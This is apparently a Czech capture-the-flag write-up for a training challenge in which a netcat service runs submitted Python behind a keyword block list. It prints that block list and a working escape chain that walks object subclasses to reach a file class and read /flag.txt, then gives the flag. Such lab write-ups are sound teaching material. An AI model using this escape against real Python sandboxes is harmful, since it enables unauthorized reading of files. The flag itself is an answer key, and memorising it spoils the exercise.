 # DNS Snake game (4)

## Zadání

Hi, TCC-CSIRT analyst,

snakes are wonderful creatures, and everyone loves them. Many people enjoy playing with snakes and find them fascinating companions. One on them lives on `snakegame.leisure.tcc` on port `23001/TCP`.

See you in the next incident!

## Nápovědy (Hints)

1. The snake is actually a python.

## Řešení

Po připojení k server ze zadání `nc snakegame.leisure.tcc 23001` dostaneme

```text
Hello, I can only speak Python, show me your code.
Enter your code :
```

Server zpracovává zadané příkazy, ale některé nejsou dovolené. Např. `open`, `exec`, `_eval`, `import`, `system` a další.

```text
This is not allowed: open
```

Po zadání `{}.__class__` dostaneme

```text
<class 'dict'>
```

Zjistíme seznam tříd, které jsou načtené a k dispozici

`{}.__class__.__mro__[-1].__subclasses__()`

```text
[<class 'type'>,
 <class 'async_generator'>,
 <class 'bytearray_iterator'>,
 <class 'bytearray'>,
 <class 'bytes_iterator'>,
 <class 'bytes'>,
 <class 'builtin_function_or_method'>,
...
```

Použijeme třídu `_io._IOBase` s indexem 114 pro čtení souborů.

Zjistíme metody třídy `_io._IOBase` pomocí `{}.__class__.__mro__[1].__subclasses__()[114].__subclasses__()`

```text
<class '_io._BufferedIOBase'>
<class '_io._RawIOBase'>
<class '_io._TextIOBase'>
<class 'io.IOBase'>
```

Použijeme funkci `_io._RawIOBase` a zkusíme přečíst soubor `flag.txt`.

`{}.__class__.__mro__[1].__subclasses__()[114].__subclasses__()[1].__subclasses__()[0]("flag.txt").read()`

`flag.txt` neexistuje. Tak zkusíme `/flag.txt`.

`{}.__class__.__mro__[1].__subclasses__()[114].__subclasses__()[1].__subclasses__()[0]("/flag.txt").read()`

Tady už server vrátí FLAG.

Tady je vyčtený python soubor [snake.py](snake.py), který zpracovává příkazy.

## Flag

`FLAG{lY4D-GJaQ-VUks-PNQd}`
